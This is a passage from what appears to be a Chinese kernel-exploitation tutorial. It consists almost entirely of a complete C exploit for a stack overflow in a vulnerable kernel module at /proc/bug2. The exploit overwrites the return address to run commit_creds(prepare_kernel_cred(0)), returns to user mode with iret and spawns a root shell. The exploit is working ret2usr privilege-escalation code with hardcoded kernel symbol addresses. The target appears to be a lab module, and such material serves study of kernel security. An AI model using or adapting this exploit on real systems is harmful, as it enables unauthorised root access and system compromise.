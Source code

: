 

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));
struct trap_frame tf;
void get_shell(void){
    execl("/bin/sh", "sh", NULL);
}
void init_tf_work(void){
    asm("pushl %cs;popl tf+4;" //set cs
        "pushfl;popl tf+8;"  //set eflags
        "pushl %esp;popl tf+12;"
        "pushl %ss;popl tf+16;");
    tf.eip = &amp;get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1067b20;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1067980;
void payload(void){
    //payload here    
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
       "iret;");
}
int main(void){
    char buf[24];
    memset(buf,0x41,24);
    *((void**)(buf+20)) = &amp;payload; //set eip to payload
    init_tf_work();
    write(1,buf,sizeof(buf));
    int fd = open("/proc/bug2",O_WRONLY);
    //exploit
    write(fd,buf,sizeof(buf));
    return 0;
}
```

**3. 调试exploit**
